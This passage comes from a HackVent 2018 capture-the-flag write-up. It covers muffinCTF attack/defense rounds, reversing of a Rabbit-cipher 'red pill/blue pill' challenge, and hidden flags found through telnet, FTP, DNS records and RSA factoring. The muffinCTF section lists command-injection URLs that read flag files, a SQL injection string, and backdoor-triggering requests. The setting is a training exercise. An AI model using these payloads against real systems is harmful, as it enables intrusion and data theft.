After making the patches, I used the attack library to automate attacks, many that I learned from others by viewing the Wireshark traffic.

Some of the bakery attacks included:

- /.../.php?_=grep+-ohra+muffinCTF{[^}]\\%2B}+%2Fhome%2Fbakery
- /css/components/checkbox.php?_=cat /home/bakery/breads/*
- /test/index.php?c=cat%20%2Fhome%2Fbakery%2Fbreads%2F*
- /inc/inc.php?page=breadSend.php&ip=127.0.0.1; cat /home/bakery/breads/*

And my one and only garden attack I implemented was the SQL injection:

- /get?hash=' or 1=1;--

The flag is:

HV18{muffinCTF{d4y_1_l3t_th3_g4m3s_b3g1n_st4y_c0v3r3d_f0r_m0r3_h4x_stuff}}

# Day 22: muffinCTF

## Challenge Description

Day 2

    DAY 2 Services
    --------------------------------------------

                    ,-_                  (`  ).
                    |-_'-,              (     ).
                    |-_'-'           _(        '`.
            _        |-_'/        .=(`(      .     )
            /;-,_     |-_'        (     (.__.:-`-_.'
            /-.-;,-,___|'          `(       ) )
            /;-;-;-;_;_/|\_ _ _ _ _   ` __.:'   )
            x_( __`|_P_|`-;-;-;,|        `--'
            |\ \    _||   `-;-;-'
            | \`   -_|.      '-'
            | /   /-_| `
            |/   ,'-_|  \
            /____|'-_|___\
            _..,____]__|_\-_'|_[___,.._
            '                          ``'--,..,.
      Name: mill
      Description:
          The wheels are moving all day here.
          The best flour in the whole city is produced in this mill.
          Improve the security of the mill.
          And reduce production rate of food for enemy nations.
      Creator: xorkiwi

                         __--___
                       >_'--'__'
                      _________!__________
                     /   /   /   /   /   /
                    /   /   /   /   /   /
                   |   |   |   |   |   |
              __^  |   |   |   |   |   |
            _/@  \  \   \   \   \   \   \
           S__   |   \   \   \   \   \   \         __
          (   |  |    \___\___\___\___\___\       /  \
              |   \             |                |  |\|
              \    \____________!________________/  /
               \ _______OOOOOOOOOOOOOOOOOOO________/
                \________\\\\\\\\\\\\\\\\\\_______/
      %%%^^^^^%%%%%^^^^!!^%%^^^^%%%%%!!!!^^^^^^!%^^^%%%%!!^^
      ^^!!!!%%%%^^^^!!^^%%%%%^^!!!^^%%%%%!!!%%%%^^^!!^^%%%!!

      Name: port
      Description:
          There are ships coming from a long distance.
          At the top of the light house you can have a nice view at the sea.
          Attention, make sure that there are no enemy ships coming into our port.
          Maybe you want to send some ships of us to remind them of our offensive capabilities.
      Creator: xorkiwi


## Solution

This time I was more careful in the cleanup.  I downloaded the new image and first booted with a live cd and removed all the backdoors.

On Day 2-3 of the event, I wised up and realized I could just create another user and take the muffin CTFs from them!  It was just a matter of not being attacked during that time and I got the HV flag.

The flag is: HV18{muffinCTF{d4y_2_g0sh_y0ur_r34lly_pwn1n_th3_stuff_l3l_g00d_b0y_g0_4h34d}}

# Day 23

## Solution

I spent time deobfuscating the barracks program too, and removed many backdoors.  In general I just commented out the "os.system()" commands and "EasyProcess" commands.

Some exploits that I used for testing:

    http://192.168.56.101:8085/blubb?blubb=uptime
    http://192.168.56.101:8085/backdoor?i_like_cookies=touch+/tmp/testing123
    http://localhost:8085/ak?n=test&k=[c]touch+/tmp/ak_test[/c]
    http://localhost:8085/pls?p=[c]touch+/tmp/pls_test[/c]

Similar to day 3 of muffinCTF, I used another user that I had created and grabbed the muffinCTF flags from them.  I just needed to stay defended long enough to get the HV18 flag.  
    
The flag is: HV18{muffinCTF{d4y_3_t3h_1337_b001s_g3t_4ll_d3m_gr0up13z_4nd_b0x3n}}
 
# Day 24: Take the red pill, take the blue pill

## Challenge Description

Level: Final

Have you already taken your vitamins today? Here are some pills for your health.

[red pill](provided/redpill.zip) [blue pill](provided/bluepill.zip)
Hint:

it might take a minute or two until the blue pill shows its effect. blue pill manufactury is in GMT+1.

[Hint](provided/hint.mp3)

## Solution

This was a very cool challenge!  Certainly one of my favorites of this HackVent.  The hints were initially very confusing but made sense once diving into the code.

I believe the hint from the mp3 is "I'll show you how deep the **rabbit** hole goes..."  After looking at the constants and functions in the program, this appears to be a reference  to the [Rabbit Cipher](https://en.wikipedia.org/wiki/Rabbit_(cipher)). 

### Red pill

When run, the red pill asks for a serial number:

    $ java -jar redpill.jar 
    java -jar redpill.jar <red pill serial number>
    
I decompiled the java code and looked at the source:
    
    // Format of serial is NN-NNN-NNN (where N is 0-9)
    if (!args[0].matches("[0-9]{2}-[0-9]{3}-[0-9]{3}")) {
        System.out.println("That's not a red pill");
        System.exit(0);
    }

Looking a little further into the function reveals the IV and key generation:

    // Create initialization vector based on user input
    byte[] iv = args[0].replace("-", "").getBytes();
    
    // Key size is 16 bytes
    byte[] k = new byte[16];
    
    // Format of array copy is: source_arr, source_pos, dest_arr, dest_pos, len
    // Thus the key is the serialnum + serialnum (string concatenation)
    System.arraycopy(iv, 0, k, 0, 8);
    System.arraycopy(iv, 0, k, 8, 8);
    
In other words:

- iv length: 8 (the string of a value between 00000000 and 99999999)
- key length: 16 (iv+iv)

Looking further down the code, it gets sneaky:

    byte[] f = new byte[(b.length + 1) / 2];

    for (int i = 0; i < b.length; ++i) {
        f[i / 2] = i % 2 == 0 ? (byte)(f[i / 2] | b[i] << 4) : (byte)(f[i / 2] | b[i] & 15);
    }

This takes the original message and creates a new message half it's size.  It copies the lower 4-bit nibble of each byte from the message into the modified message.

For example, the hex stream 0x12345678 becomes 0x2468.  And this is the value that gets encrypted with the Rabbit cipher.

I took a peek at the bluepill (more in the next section).  The bluepill expects a PNG file as input, so I figured the redpill will do the same.

So, I wrote some [java code](solutions/Solve.java) to brute force the serial number. After running for a while, it output 45288109.

### Blue pill

When run, the blue pill did not ask for a serial number.  

I decompiled the program using the retdec decompiler and also traced through it with the Immunity Debugger.

It was similar to the red pill, but instead used the upper 4 bits of every nibble  This part take the upper part of each byte (& 0xf0):

    0040188F  |> 3B0D 8C224000  /CMP ECX,DWORD PTR DS:[40228C]
    00401895  |. 74 18          |JE SHORT bluepill.004018AF
    00401897  |. 8A1C4E         |MOV BL,BYTE PTR DS:[ESI+ECX*2]
    0040189A  |. C0EB 04        |SHR BL,4
    0040189D  |. C0E3 04        |SHL BL,4
    004018A0  |. 8A544E 01      |MOV DL,BYTE PTR DS:[ESI+ECX*2+1]
    004018A4  |. C0EA 04        |SHR DL,4
    004018A7  |. 0ADA           |OR BL,DL
    004018A9  |. 881C0F         |MOV BYTE PTR DS:[EDI+ECX],BL
    004018AC  |. 41             |INC ECX
    004018AD  |.^EB E0          \JMP SHORT bluepill.0040188F

For example, if the input message was the hex stream 0x12345678, the message that is encrypted is 0x1234.

The IV is obtained from the current time:

    FileTimeToSystemTime((struct _FILETIME *)&g21, (struct _SYSTEMTIME *)&g22);
    SystemTimeToFileTime((struct _SYSTEMTIME *)&g22, (struct _FILETIME *)&g21);

And the following code calls the encryption:

    004018CA  |. 68 71214000    PUSH bluepill.00402171            ; key
    004018CF  |. 68 D1204000    PUSH bluepill.004020D1            ; offset to counter
    004018D4  |. E8 FEFAFFFF    CALL bluepill.004013D7            ; function 1: setkey
    004018D9  |. 83C4 08        ADD ESP,8
    004018DC  |. 68 59214000    PUSH bluepill.00402159            ; time
    004018E1  |. 68 D1204000    PUSH bluepill.004020D1            ; offset to counter
    004018E6  |. E8 32F9FFFF    CALL bluepill.0040121D            ; function 2: setiv
    004018EB  |. 83C4 08        ADD ESP,8
    004018EE  |. FF35 8C224000  PUSH DWORD PTR DS:[40228C]        ;
    004018F4  |. FF35 7C224000  PUSH DWORD PTR DS:[40227C]        ;
    004018FA  |. 68 D1204000    PUSH bluepill.004020D1            ; offset to counter
    004018FF  |. E8 FCF6FFFF    CALL bluepill.00401000            ; function 3: crypt


I found the key at data location 0x402171

    00402171  87 05 89 CD A8 75 62 EF  ‡‰Í¨ubï
    00402179  38 45 FF D1 41 37 54 D5  8EÿÑA7TÕ

So this time it is a matter of brute forcing the IV.
    
I found the time of the blue pill output:

    $ ls -ltrh flag_encrypted
    -rw-rw-r-- 1 jason jason 44K Oct 28 14:41 flag_encrypted 

I used an [online timestamp converter](https://www.silisoftware.com/tools/date.php?inputdate=131852077175370000&inputformat=filetime) to calculate the corresponding FILETIME value.

Then I wrote a script to [brute force the iv using values for times a minute before and after the timestamp](solutions/bluepill.py).

Running it I found the IV:

    [+] Found iv=1071effec36ed401

### Putting it all together

Given that the Rabbit cipher is a stream cipher that uses XOR encryption, encryption and decryption are thus the same function.

And having the keys, ivs and encrypted files it was just a matter of [stitching it together](solutions/day24.py) and writing the output file.


Scanning the code revealed the flag.

The flag is: HV18-GetR-eady-4Hac-kyEa-steR

## Hidden 01

A port scan of "challenges.hackvent.hacking-lab.com" revealed that telnet and ftp were open.

I ran "script" then "telnet challenges.hackvent.hacking-lab.com" and observed the letters in the sky.  Putting them together revealed "ctrl154n1llu51on".

Watch for the letters.  I then connected to the FTP server and obtained the flag:
    
    $ ftp challenges.hackvent.hacking-lab.com
    Name (challenges.hackvent.hacking-lab.com:jason): santa
    Password: ctrl154n1llu51on
    ftp> get flag.txt
 
The contents of the file were:

```
 ___   _   _  _ _____ _   ___   ___ _      _   ___ 
/ __| /_\ | \| |_   _/_\ / __| | __| |    /_\ / __|
\__ \/ _ \| .` | | |/ _ \\__ \ | _|| |__ / _ \ (_ |
|___/_/ \_\_|\_| |_/_/ \_\___/ |_| |____/_/ \_\___|
                                                   
Congratulations! Well done! Here you go:
⚑ HV18-PORT-scan-sARE-essn-tial ⚑
Cheers @avarx_
__________________________________________________
```

The flag is: HV18-PORT-scan-sARE-essn-tial

## Hidden 02

I looked up the DNS entry of hackvent.org and found mail servers:

    $ dig hackvent.org ANY
    
    hackvent.org.           3528    IN      MX      10 mail.hackvent.org.
    hackvent.org.           3528    IN      MX      20 mail.hackvent.org.

I looked up the DNS entry of the mail server and observed a hidden flag:    

    $ dig mail.hackvent.org ANY
    
    ; <<>> DiG 9.10.3-P4-Ubuntu <<>> mail.hackvent.org ANY
    
    ;; ANSWER SECTION:
    mail.hackvent.org.      530     IN      TXT     "Nice try, but this would be too easy, nah? However, get a hidden flag: SFYxOC1PU0lOLVRjNG4tUjNWMy1hbEl0LUFsbDE="
    

I decoded the flag using base64:

    $ echo SFYxOC1PU0lOLVRjNG4tUjNWMy1hbEl0LUFsbDE= | base64 -d
    HV18-OSIN-Tc4n-R3V3-alIt-All1

The flag is: HV18-OSIN-Tc4n-R3V3-alIt-All1

Elite speak decode: "OS INT can reveal it all!"

## Hidden 03

In the [power.ps1](provided/power.ps1) script, there is a line containing a "thumbprint":

    . "$PSScriptRoot\flag.ps1" #thumbprint 1398ED7F59A62962D5A47DD0D32B71156DD6AF6B46BEA949976331B8E1


I used RSA to decrypt this thumbprint to find a hidden flag.

I took a guess that:

- The value of N is the same value as used in the power.ps1 script
- The encryption (e) value is 65537

Assuming this:

1. I used [factordb.com](https://factordb.com) to get the factors p and q of N.
2. Knowing p and q I calculated PHI = (p - 1) * (q - 1)
3. Assuming that e is 65537, I computed the decryption value: inverse of e mod PHI
4. I ran the RSA decryption on the thumbprint value with decryption key d

The [solution in python](hidden03.py):

    #!/usr/bin/env python
    
    import cryptomath
    
    # coding: utf-8
    ct = int('1398ED7F59A62962D5A47DD0D32B71156DD6AF6B46BEA949976331B8E1', 16)
    
    p = 73197682537506302133452713613304371
    q = 79797652691134123797009598697137499
    n = p * q
    
    phi = (p - 1) * (q - 1)
    
    e = 65537
    d = cryptomath.findModInverse(e, phi)
    
    pt = (pow(ct, d, n))
    pt_hex = '%x' % pt    
    print pt_hex.decode('hex')
    

The flag is: HV18-fn8o-Az1a-cbpG-6gJd-sPkU
